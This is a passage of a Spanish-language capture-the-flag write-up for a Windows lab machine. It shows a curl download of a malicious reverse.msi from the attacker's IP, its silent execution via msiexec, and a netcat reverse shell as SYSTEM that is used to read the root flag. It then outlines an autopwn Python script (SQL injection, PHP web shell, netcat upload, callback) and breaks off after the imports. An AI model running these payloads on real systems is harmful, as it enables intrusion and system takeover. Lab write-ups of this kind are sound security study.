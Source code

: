 Luego, este archivo creado lo pasaremos a la máquina víctima:

```
curl 10.10.14.17/reverse.msi -o reverse.msi
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  156k  100  156k    0     0   156k      0  0:00:01 --:--:--  0:00:01  191k
```

Con este archivo dentro de la máquina windows lo ejecutamos con **msiexec /quiet /qn /i** mientras tenemos netcat escuchando:
```
C:\xampp\htdocs\omrs\images>msiexec /quiet /qn /i reverse.msi
msiexec /quiet /qn /i reverse.msi
```

Si observamos nuestro `netcat`:

```
rlwrap nc -nvlp 1235
listening on [any] 1235 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.239] 59296
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

Bien, estamos dentro, ahora buscaremos la flag:
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
799e26baf2559167d6b1257
```

¡Bien!

Hemos ganado acceso como administrador.

Sin embargo, ahora haremos un autopwn en python que nos permitirá ganar acceso al sistema.

El código consiste en estos pasos:
- injección sql para logearse en voting system.
- Subir un archivo php malicioso que permite utilizar la variable cmd para injectar comandos.
- Utilizar este archivo php para subir el netcat.exe a la máquina víctima.
- Utilizar el mismo archivo php para realizar una conexión hacia nuestro equipo.


En primer lugar, tenemos las librerías:

```python
import requests,sys,subprocess
from pwn import *
from os import system
```

Luego, tenemos la función encargada del control + c y la función que aparece si no ingresan correctamente los datos:
